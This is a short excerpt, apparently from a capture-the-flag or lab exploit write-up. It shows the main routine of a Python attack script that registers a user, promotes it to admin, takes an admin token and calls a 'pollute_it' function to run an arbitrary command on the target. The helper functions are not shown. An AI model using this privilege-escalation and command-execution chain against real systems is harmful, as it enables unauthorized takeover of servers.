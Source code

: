```py
        cmd = sys.argv[1]
        admin_header = {}
        is_registered = register_user(url=host, user=username, password=password)
        if is_registered:
            is_admin = update_user_role(user=username)
            if is_admin:
                is_login = admin_token(url=host, user=username, password=password)
                if is_login:
                    admin_header = is_login
                else:
                    exit(1)
            else:
                exit(1)
        else:
            exit(1)

        session.headers = admin_header
        pollute_it(url=host, cmd=cmd)
    
    except KeyboardInterrupt as e:
        print(e)
    except IndexError as e:
        exit("Usage: script.py <command>")
    except Exception as e:
        print(e)

```

![](screenshots/rooted.gif)


